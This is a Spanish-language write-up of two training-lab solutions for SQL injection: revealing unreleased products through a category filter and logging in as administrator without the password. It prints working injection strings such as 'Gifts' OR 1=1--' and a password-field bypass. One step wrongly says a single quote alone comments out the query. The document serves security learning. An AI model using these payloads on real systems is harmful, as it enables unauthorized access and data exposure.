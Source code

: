 # SQL Injection

## Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

### Enunciado

Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Cuando el usuario selecciona una categoría, la aplicación realiza una consulta SQL como la siguiente:

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

Para resolver el laboratorio, realiza un ataque de inyección SQL que provoque que la aplicación muestre uno o más productos **no publicados**.

### Resolución

Al capturar la petición vemos que hay un error que no se contempla ya que si ponemos una comilla simple detrás de **Gifts** comentamos el resto de la sentencia.

```
SELECT * FROM products WHERE category = 'Gifts'' AND released = 1
```

Sabiendo esto hacemos la búsqueda:

```bash
?category=Gifts'--
```

Podemos observar como salen 4 elementos cuando salían 3 anteriormente.

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Podemos ver que hay una inyección por lo que realizamos esta sentencia.

```
SELECT * FROM products WHERE category = 'Gifts' AND 1=1--' AND released = 1
```

Lo añadimos en la búsqueda y vemos que es vulnerable el parámetro **categories**. Volviendo al enunciado realizamos esta sentencia para resolverlo.

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

Lo ponemos en la búsqueda.

```
?category=Gifts' OR 1=1--'
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Lab: SQL injection vulnerability allowing login bypass

### Enunciado

Este laboratorio contiene una vulnerabilidad de inyección SQL en la función de inicio de sesión.

Para resolver el laboratorio, realiza un ataque de inyección SQL que inicie sesión en la aplicación como el usuario **administrador**.

### Resolución

Lo primero que probamos que el usuario no es la misma contraseña. La consulta sería:&#x20;

```
SELECT * FROM usuarios WHERE username='administrator' AND contraseña= 'administrator'
```

Pero no sabemos la contraseña. Como dijimos anteriormente si metemos una comilla simple en el campo de **password** comprobamos que es vulnerable.

```
SELECT * FROM usuarios WHERE username='administrator' AND contraseña= '' OR 1=1--'
```

Por lo tanto insertamos eso en el login.

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
